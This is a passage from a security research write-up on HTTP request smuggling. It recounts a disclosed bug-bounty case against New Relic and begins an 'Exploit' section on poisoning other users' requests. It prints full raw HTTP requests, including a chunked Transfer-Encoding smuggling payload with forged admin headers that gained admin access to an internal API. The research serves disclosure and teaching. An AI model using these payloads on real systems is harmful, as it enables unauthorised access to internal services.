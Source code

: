This was easily fixed using the X-Forwarded-Proto header observed earlier:

```
...GET / HTTP/1.1Host: staging-alerts.newrelic.comX-Forwarded-Proto: httpsHTTP/1.1 404 Not FoundAction Controller: Exception caught 
```

With a little content discovery I found a useful endpoint on the target:

```
...GET /revision_check HTTP/1.1Host: staging-alerts.newrelic.comX-Forwarded-Proto: httpsHTTP/1.1 200 OKNot authorized with header:
```

The error message clearly told me I needed an authorization header of some sort, but teasingly failed to name it. I decided to try the 'X-nr-external-service' header seen earlier:

```
...GET /revision_check HTTP/1.1Host: staging-alerts.newrelic.comX-Forwarded-Proto: httpsX-nr-external-service: 1HTTP/1.1 403 ForbiddenForbidden
```

Unfortunately this didn't work - it caused the same Forbidden response that we'd already seen when trying access that URL directly. This suggested that the front-end was using the X-nr-external-service header to indicate that the request originated from the internet, and by smuggling and therefore losing the header, we'd accidentally tricked their system into thinking our request originated internally. This was very educational, but not directly useful - we still needed the name of the missing authorization header.

At this point I could have applied the processed-request-reflection technique to a range of endpoints until I found one that had the right request header. Instead, I decided to cheat and consult my notes from [last time I compromised New Relic](https://portswigger.net/blog/cracking-the-lens-targeting-https-hidden-attack-surface). This revealed two invaluable headers - Server-Gateway-Account-Id and Service-Gateway-Is-Newrelic-Admin. Using these, I was able to gain full admin-level access to their internal API:

```
POST /login HTTP/1.1Host: login.newrelic.comContent-Length: 564Transfer-Encoding: chunkedTransfer-encoding: cow0POST /internal_api/934454/session HTTP/1.1Host: alerts.newrelic.comX-Forwarded-Proto: httpsService-Gateway-Account-Id: 934454Service-Gateway-Is-Newrelic-Admin: trueContent-Length: 6…x=123GET...HTTP/1.1 200 OK{ "user": {    "account_id": 934454,    "is_newrelic_admin": true }, "current_account_id": 934454 …} 
```

New Relic deployed a hotfix and diagnosed the root cause as a weakness in an F5 gateway. The report has now been [publicly disclosed](https://hackerone.com/reports/498052). As far as I'm aware there's no patch available, meaning this is still a zeroday at the time of writing. **Update:** F5 Issued advisory [K50375550](https://support.f5.com/csp/article/K50375550) for this on the 25th August 2019.

## Exploit

Breaking straight into internal APIs is great when it works, but it's rarely our only option. There's also a wealth of different attacks we can launch against everyone browsing the target website.

To establish which attacks we can apply to other users, we need to understand what types of request we can poison. Repeat the socket poisoning test from the 'Confirm' stage, but iteratively tweak the 'victim' request until it resembles a typical GET request. You might find that you can only poison requests with certain methods, paths or headers. Also, try issuing the victim request from a different IP address - in rare cases, you may find that you can only poison requests originating from the same IP.
